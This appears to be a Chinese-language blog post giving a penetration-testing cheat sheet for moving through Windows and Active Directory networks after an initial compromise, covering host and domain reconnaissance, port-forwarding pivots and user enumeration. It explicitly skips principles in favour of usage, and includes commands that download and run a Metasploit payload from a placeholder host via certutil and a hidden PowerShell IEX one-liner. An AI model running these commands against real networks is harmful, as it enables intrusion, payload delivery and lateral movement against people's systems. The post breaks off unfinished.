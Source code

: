 ```yaml
---
title: Windows漫游
author: Admin
date: 2020-07-4 15:39:00 +0800
categories: [渗透测试, 内网]
tags: [MSF, Windows, Active Directory]
---
```


# 开宗明义
本篇文章不讲原理，仅介绍利用方式。

难记命令速查表

```shell
# 信息收集
nmap -sU --script nbstat.nse -p 137 192.168.1.0/24		# netbios扫描
setspn -T domain -Q */*		# spn扫描
nslookup -type=srv _ldap._tcp.dc._msdcs.domain.com		# 定位域控
nltest /domain_trusts		# 域信任
type C:\Windows\system32\drivers\etc\hosts		# hosts信息

#端口转发
netsh interface portproxy add v4tov4 listenport=80 connectport=445 connectaddress=192.168.1.1 protocol=tcp		# 本机监听80端口，转发192.168.1.1:445流量


# 文件下载
cmd.exe /c certutil -urlcache -split -f http://ip:port/msf.exe C:\ProgramData\a.exe
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://ip:port/a.exe'))"
```

# 信息收集
当打下某点后，应该进行以下信息收集：

1. 网络架构
2. 敏感信息

## 网络架构

### 是否出网

```shell
ping qq.com		# 检测DNS是否解析，ICMP流量是否出网。
certutil -urlcache -split -f http://ip:port/msf.exe		# TCP、HTTP流量是否出网
nslookup qq.com 8.8.8.8		# UDP、DNS流量是否出网
```

### 网卡情况

判断是否多网卡

```shell
ipconfig /all
```

### 路由表

多网卡流量走向等信息

```shell
route print
```

### 端口信息

查看本机监听端口，以及其他主器与本机链接情况。

```shell
netstat -ao
```
常用参数：

* -a 显示全部
* -n 显示具体IP，不加显示hostname
* -o 显示PID

详细文档：[docs.microsoft.com/zh-cn/windows-server/administration/windows-commands/netstat](https://docs.microsoft.com/zh-cn/windows-server/administration/windows-commands/netstat)

### arp表

列当前子网存活

```shell
arp -a
```

### 本机hosts信息

某些VPN会写该文件

```shell
type C:\Windows\system32\drivers\etc\hosts
```

### DNS缓存

返回结果过长可以重定向到文件。

```shell
ipconfig /displaydns
```

### DNS域传送
```shell
nslookup
> server dns.domain.com
> ls domain.com
```

### 是否在域
```shell
net view		# 查询域列表
net view /domain[:domainname]		# 不带选项会显示当前域或工作组的计算器列表
net config workstation		# 当前登陆域

# 定位域控制器
net group "domain controllers" /domain
nslookup -type=srv _ldap._tcp.dc._msdcs.domain.com
net time /domain
```

### SPN查询

服务主体名称（`SPN: Service Principal Names`），当服务加入域时会自动注册。通过LDAP协议查询该信息，快速梳理运行重要服务的主机。

```
setspn -T domain -Q */*		# 不加 -T 参数查询当前域，普通域用户权限
```

### 域信任

查看域之间信任关系。

```shell
nltest /domain_trusts
```

### netbios扫描

获取主机名信息，以及定位找到多网卡主机。

```shell
# nmap
nmap -sU --script nbstat.nse -p 137 192.168.1.0/24

# nextnet
nextnet 192.168.0.0/12

# msf
use auxiliary/scanner/netbios/nbname
```
> nextnet: [github.com/hdm/nextnet](https://github.com/hdm/nextnet)

### 路由跟踪

```shell
tracert ip
```

### 全端口扫描器推荐

Goby: [gobies.org](https://gobies.org/)

## 敏感信息

### 用户
```shell
net user		# 全部用户
query session		# 用户登陆情况

net user /domain		# 查询域用户
net group /domain		# 查询工作组
net group "domain admins" /domain		# 域管
```

### 配置信息

```shell
set		# 本地环境变量
net accounts		# 本地密码策略
net accounts /domain		# 域密码策略
https://wh0ale.github.io/2018/12/19/2018-12-19-%E5%9F%9F%E6%B8%97%E9%80%8F/
```

----
咕咕咕...
